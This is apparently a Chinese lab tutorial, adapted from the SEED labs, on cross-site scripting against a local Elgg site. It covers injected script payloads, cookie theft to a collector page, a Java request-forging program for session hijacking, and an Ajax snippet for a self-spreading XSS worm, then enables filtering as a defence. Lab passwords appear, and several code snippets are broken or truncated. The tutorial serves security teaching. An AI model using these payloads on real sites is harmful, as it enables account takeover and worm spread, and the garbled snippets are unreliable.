

# 第 1 节 Elgg 系统跨站脚本攻击实验

## 实验描述

跨站点脚本(XSS)是一种常见较弱的 web 应用程序漏洞,攻击者使用这个漏洞注入恶意代码(例如 JavaScript)来攻击受害者的 web 浏览器。

使用这个恶意代码,攻击者可以窃取受害者的凭证,如 cookies 的访问控制政策(ie 同源策略)受雇于浏览器可以保护这些凭证绕过 XSS 漏洞利用。这种漏洞可能会导致大规模的攻击。

## 预备知识

### 什么是 XSS

XSS(Cross Site Scripting)：跨站脚本攻击，它与 SQL 注入攻击类似，SQL 注入攻击中以 SQL 语句作为用户输入，从而达到查询/修改/删除数据的目的，而在 xss 攻击中，通过插入恶意脚本，实现对用户游览器的控制。

### XSS 分类

主体分为 2 类：

>1\. 来自内部：主要利用程序自身的漏洞，构造跨站语句。

>2\. 来自外部：自己构造 XSS 跨站漏洞页面，然后诱惑管理员来点，从而获得我们想要的信息。

[科普](http://www.cnblogs.com/AngelLee2009/archive/2011/10/24/2223031.html)

### XSS 危害

>1\. 盗取各类用户账户，如机器登录账号、用户网银账号、各类管理员账号。

>2\. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

>3\. 盗窃企业重要的具有商业价值的资料。

>4\. 非法转账。

>5\. 强制发送电子邮件。

>6\. 控制受害者机器向其他网站发起攻击。

### 什么是 Cookie

某些网站为了辨别用户身份、进行 session 跟踪而储存在用户本地终端上的数据（通常经过加密）。

### 环境搭建

配置 DNS：

```
 sudo vim /etc/hosts 
```

>密码：dees

vim 文件编辑：(详细请大家学习 Linux 的课程) >按 i 进入编辑模式

> 按 Esc 退出编辑模式

> 使用 :wq 退出 vim 编辑器


配置网站文件：

```
 sudo vim /etc/apache2/conf.d/lab.conf 
```

> 密码：dees


启动数据库：

```
 sudo mysqld_safe 
```

启动 apcahe 服务：

```
 sudo service apache2 start 
```

> 密码：dees

访问测试


```
 user    UserName    Password
Admin   admin       seedelgg
Alice   alice       seedalice
Boby    boby        seedboby    
Charlie charlie     seedcharlie 
Samy    samy        seedsamy 
```

## 实验内容

### lab1 通过弹窗显示恶意信息

实验类容：登入以上所给的一个用户，在个人资料页面编辑 profile 信息。写入恶意 javascript 代码。

step1:编辑自己的 profile 信息


step2:随便填点信息后插入 js 弹窗代码，然后点击 save 按钮保存信息


代码如下

```
 <script>alert('This is xss');</script> 
```

访问测试：


### lab2 显示 Cookie

弹框仅仅是为了验证是否存在 xss 漏洞，并没有什么利用价值，而 JavaScript 中可以用函数来获取 cookie，接下来就是使用 JavaScript 获取 cookie 来进一步利用。

还是刚刚那个页面，只不过我们的 javascript 代码变成了

```
 <script>document.write(document.cookie);</script> 
```


访问测试：


红色圆圈内就是该用户的 cookie。

为了更直观我们将上面的 javascript 代码替换成：

```
 <script>alert(document.write);</script> 
```

效果如下：



弹出的这些字符就是你当前登录用户的 cookie。

### lab3 窃取受害者的 Cookie

lab2 的情况局限于获取自己的 Cookie，当然我们不需要自己的 Cookie，我们需要在不登陆的情况下，获取其他用户的 Cookie，这样我们就可以使用 cookie 直接登录别人的账号。

要窃取别人的 cookie，首先必须具备一个能接收 cookie 的环境，然后通过 javascript 代码把别人的 cookie 通过 http 请求发送到所搭的环境。

还是在 profiles 页面下编辑 javascript 代码

```
 <script>document.write(' ');</script> 
```

下面我们将来创造一个这样的环境。

step1：在网站目录下面创建一个 hack.php 的文件:

```
sudo vim /var/www/XSS/elgg/hack.php 
```

hack.php 文件的内容如下图所示。


step2：创建一个 cookie.txt,用它来 cookie。并且这个文件要有写入权限步骤如下图所示.


step3:在编辑 profiles 页面插入以下 js 代码，保存后访问用户资料页面。

```
 <script>document.write('');</script> 
```


step4:查看 cookie.txt 文件，下图红色圆圈即为接收到的 cookie.


### lab4 使用获取的 Cookie 进行会话劫持

当获取了受害者的 Cookie 以后，我们可以干嘛呢？可以利用 Cookie 登录用户，也就是会话劫持。

会话劫持：窃取受害者的 cookie 后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者增删好友，删去公司职位信息等等。从本质上讲, 就是劫持受害者的会话。

这个实验我们将用到 firefox 的菜单栏中 tools 中的 LiveHTTPHeaders 工具。

首先，我们查看受害者添加好友时候的请求： 我们登录 Samy 的账号来添加 Boby 来查看添加好友的请求

step1:


如上图，登陆后单击‘more’中的‘members’来添加好友，然后点击一个不是好友的用户来添加好友。


点击这里添加好友。

step2:


step2 中的截图即为请求信息。

当攻击者知道了他的请求以后，就可以编写一个 Java 程序发送相同的 HTTP 请求达到创建项目的目的，当然还可以进行其他的请求：

HTTP 访问请求： >1\. 打开一个连接到 web 服务器。

>2\. 设置必要的 HTTP 头信息。

>3\. 发送请求到 web 服务器。

>4\. 得到来自 web 服务器的响应。

```
 import java.io.*;
    import java.net.*;

    public class HTTPSimpleForge {

    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>
    &__elgg_token=<<correct_elgg_token_value>>";
    // URL to be forged.
    URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?
    friend=<<friend_user_guid>>"+requestDetails);
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
    // using the method in task3.
    urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
    //HTTP Post Data which includes the information to be sent to the server.
    String data = "name=...&guid=..";
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println("Response Code = " + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK)
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    } 
    } 
```

### lab5 XSS 蠕虫

#### xss 蠕虫 cross site scripting worm

XSS 蠕虫是一种跨站脚本病毒， 通常由脚本语言 Javascript 写成， 它借由网站访问者传播。由于 XSS 蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染。

#### XSS 蠕虫的危害

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施 DDoS 攻击等等。

#### XSS 蠕虫的学习

首先我么需要理解一下 Ajax 框架。框架代码如下：

```
 var Ajax=null;
    // 构建 http 请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    // 构建 http 请求内容。 内容的格式可以从浏览器插件 LiveHTTPHeaders 中知道长什么样
    var content="name=...&company=&..."; // 这是你需要填写的内容
    // 发送 http POST 请求。
    Ajax.send(content); 
```

我们创建一个 test.js 的文件；这个文件中是上面的 Ajax 框架：

```
 sudo vim test.js 
```


然后我们在创建一个 test1.js 的文件，写一个 xss 蠕虫代码：

```
 sudo vim test1.js 
```


这里是代码：

```
 var on=new Ajax.PeriodicalUpdater("edit",
    "http://www.xsslabelgg.com/action/profile/edit",
    //定义一个新的 Ajax.PeriodicalUpdater
    {method:’get’,onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为 get，频率为 1000 
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的 xss 蠕虫病毒，下面这段代码是蠕虫可以自动传播：

```
 <script id=worm>//定义 js 的 id 为 worm
    var strCode = document.getElementById("worm");
    //找到元素 id
    alert(strCode.innerHTML);
    </script> 
```

代码中使用循环体，从而达到自动传播的目的。

在实验机中这样创建 xss 蠕虫：

```
sudo vim xss_worm.js 
```


Code:

```
 var strCode = document.getElementByld("worm");
    alert(strCode.innerHTML); 
```

然后用一个 html 文件调用蠕虫：

```
sudo vim worm.html 
```


Code:

```
<script type='text/javascript' src='http://www.xsslabelgg.com/xss_worm.js'></script> 
```

#### 科普

> XSS worm 攻击原理剖析[`book.51cto.com/art/201311/419361.htm`](http://book.51cto.com/art/201311/419361.htm "XSS worm 攻击原理剖析")

> XSS worm 剖析 [`book.51cto.com/art/201311/419362.htm`](http://book.51cto.com/art/201311/419362.htm "XSS Worm 剖析")

> XSS worm 案例 [`www.wooyun.org/bugs/wooyun-2013-017701`](http://www.wooyun.org/bugs/wooyun-2013-017701 "点评网主站漏洞打包详解+手把手教你写 xss 蠕虫")

### lab6 XSS 防御

在 elgg 应用中有一个防御 xss 的机制叫做 HTMLawed 1.8，下面我们将去打开这个机制并观察变化：

step1:登录管理员帐户。账号为 admin 密码为 seedelgg。然后打开`Administration`菜单。


step2:打开在右边的`Configure`菜单栏下选择`Plugins`链接。


step3:打开下拉菜单，选择`Security and Spam`


step4:看见 HTMLawed 1.8 了 我们激活它吧。


测试:


可以看见现在并没有弹框了，并在原来的地方显示了本来的 js 代码被 HTMLawed 1.8 应用过滤后的字符。

elgg 还有一个防止 xss 的机制就是进入网页源文件去让 htmlspecials 函数起作用。

输入命令 `vim /var/www/XSS/elgg/views/default/output/tag.php` 找到 htmlspecialchars


把圆圈内注释的改成下图：


然后保存文件就能防止 xss 了；但是利用这个方法要修改同目录下的 tag.php、 friendlytime.php、 url.php、 dropdown.php、email.php 和 confirmlink.php 文件同上面的方法一样。

#### 科普

如果你想更多的了解相关的 XSS 知识,可以去阅读**《XSS 跨站脚本攻击剖析与防御》**。

## 作业

你需要提交一份详细的实验报告，描述你所做的或你所观察到的。

使用 LiveHTTPHeaders 或 Wireshark 的截图，请提供详细的过程。

你还要对所产生的有趣的实验现象做出解释。

## 版权声明

本课程所涉及的实验来自 Syracuse SEED labs，并在此基础上为适配实验楼网站环境进行修改，修改后的实验文档仍然遵循 GNU Free Documentation License。

本课程文档 github 链接：https://github.com/shiyanlou/seedlab

附 Syracuse SEED labs 版权声明： >Copyright Statement Copyright 2006 – 2014 Wenliang Du, Syracuse University. The development of this document is funded by the National Science Foundation’s Course, Curriculum, and Laboratory Improvement (CCLI) program under Award No. 0618680 and 0231122\. Permission is granted to copy, distribute and/or modify this document under the terms of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software Foundation. A copy of the license can befound at http://www.gnu.org/licenses/fdl.html.